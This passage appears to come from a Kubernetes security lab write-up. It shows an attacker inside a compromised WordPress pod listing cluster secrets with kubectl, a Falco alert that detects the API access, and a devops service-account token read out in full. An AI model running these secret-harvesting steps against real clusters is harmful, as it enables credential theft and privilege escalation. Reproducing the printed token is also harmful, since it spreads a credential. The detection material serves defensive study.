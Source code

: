 ```bash
services                                                       []                  []               [get list watch]
                                                               [/api/*]            []               [get]
                                                               [/api]              []               [get]
                                                               [/apis/*]           []               [
```
We can now list secrets from this pod with its Service Account

## Use case 7 : List kubernetes secrets

```bash
root@wordpress-9bb79bb48-fw68x:~# ./kubectl get secrets
NAME                    TYPE                                  DATA   AGE
default-token-xqql4     kubernetes.io/service-account-token   3      6h38m
devops-token-j8pgs      kubernetes.io/service-account-token   3      10s
wordpress-token-qsfzh   kubernetes.io/service-account-token   3      6h38m
```

Detected:

```bash
{"output":"18:09:11.425872482: Notice Unexpected connection to K8s API Server from container (command=kubectl get secrets k8s.ns=dev k8s.pod=wordpress-9bb79bb48-fw68x container=6721dba88c18 image=paulborielabs/wordpress:gare connection=10.42.1.34:53970->10.43.0.1:443) k8s.ns=dev k8s.pod=wordpress-9bb79bb48-fw68x container=6721dba88c18 k8s.ns=dev k8s.pod=wordpress-9bb79bb48-fw68x container=6721dba88c18","priority":"Notice","rule":"Contact K8S API Server From Container","time":"2021-09-15T18:09:11.425872482Z", "output_fields": {"container.id":"6721dba88c18","container.image.repository":"paulborielabs/wordpress","container.image.tag":"gare","evt.time":1631729351425872482,"fd.name":"10.42.1.34:53970->10.43.0.1:443","k8s.ns.name":"dev","k8s.pod.name":"wordpress-9bb79bb48-fw68x","proc.cmdline":"kubectl get secrets"}}
```

The Devops Service account seems interesting  let's check it's privileges :

```bash
root@wordpress-9bb79bb48-fw68x:~# ./kubectl describe secret devops-token-j8pgs
Name:         devops-token-j8pgs
Namespace:    dev
Labels:       <none>
Annotations:  kubernetes.io/service-account.name: devops
              kubernetes.io/service-account.uid: 9325d2ec-c2af-4d15-8736-b5a431eed4b9

Type:  kubernetes.io/service-account-token

Data
====
ca.crt:     1017 bytes
namespace:  3 bytes
token:      eyJhbGciOiJSUzI1NiIsImtpZCI6IlNuWHRyQlNnbXEzeVVza2hPcHY1WUhLZG1zVWRDN2dYeW5sX2U0QUtRS2sifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZXYiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlY3JldC5uYW1lIjoiZGV2b3BzLXRva2VuLWo4cGdzIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImRldm9wcyIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjkzMjVkMmVjLWMyYWYtNGQxNS04NzM2LWI1YTQzMWVlZDRiOSIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZXY6ZGV2b3BzIn0.nmV-HExVqXl8sXJKPelItpQSApiBgw4WhC8KO2cDdzbi3I9z4357BZ4uLPa5j9YdFb79Tvp8lohU0LIOBFuFRCpe88jlbt3KVNr9VnEG4XGhTWRr1PjZijDckAcaA1vYhKTSeLMttUjjoyStmqfvcENWeFL43CPSXoXHWd8AbLfZPm-kljo3xBDnCAbrcYdADaVB8nQfjsVzQTQiQ3UG5kujCsUD-1ZkrzN4jQ7TmNlXwd0MuQAtmHosYNZi4vQ8rAa9h-nXyOKo_MJdGV7Mskas-bUnC1Kb_tHaznreA809KI6JFy-Y9YaqaZPGqANhrLyfhATzIjgFB0bXLKDxVw

```